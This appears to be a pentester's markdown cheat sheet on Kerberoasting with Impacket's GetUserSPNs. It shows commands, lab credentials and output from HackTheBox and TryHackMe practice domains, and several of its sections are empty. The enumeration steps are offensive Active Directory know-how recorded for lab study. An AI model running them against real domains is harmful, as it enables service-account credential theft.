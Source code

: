 - [Common Mistakes](#common-mistakes)
	- ['@"$t"](#t)

# Kerberoasting with GetUserSPNs

### [Kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

> ... to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

[Powershell - List all SPNs in Active Directory](https://techexpert.tips/powershell/powershell-list-all-spns-active-directory/)

### TLDR
```sh
GetUserSPNs BLACKFIELD.local/
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight' -usersfile users.txt
```
### Without creds; HTB Blackfield
```sh
$ GetUserSPNs BLACKFIELD.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

### With creds; HTB Blackfield
```sh
$ GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
### 
```

```
# [Common Mistakes](#common-mistakes-1)
## ['@"$t"](#t-1)
```sh
$ GetUserSPNs.py 'LAB.ENTERPRISE.THM/nik:ToastyBoi!'@"$t"
Impacket v0.12.0.dev1+20230823.84619.912e896 - Copyright 2023 Fortra

[-] Error in bindRequest -> invalidCredentials: 8009030C: LdapErr: DSID-0C0906B5, comment: AcceptSecurityContext error, data 52e, v4563
```

## 
```sh
$ GetUserSPNs.py 'LAB.ENTERPRISE.THM/nik:ToastyBoi!'
Impacket v0.12.0.dev1+20230823.84619.912e896 - Copyright 2023 Fortra

ServicePrincipalName  Name       MemberOf                                                     PasswordLastSet             LastLogon                   Delegation 
--------------------  ---------  -----------------------------------------------------------  --------------------------  --------------------------  ----------
HTTP/LAB-DC           bitbucket  CN=sensitive-account,CN=Builtin,DC=LAB,DC=ENTERPRISE,DC=THM  2021-03-12 09:20:01.333272  2021-04-26 23:16:41.570158
```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
Examples 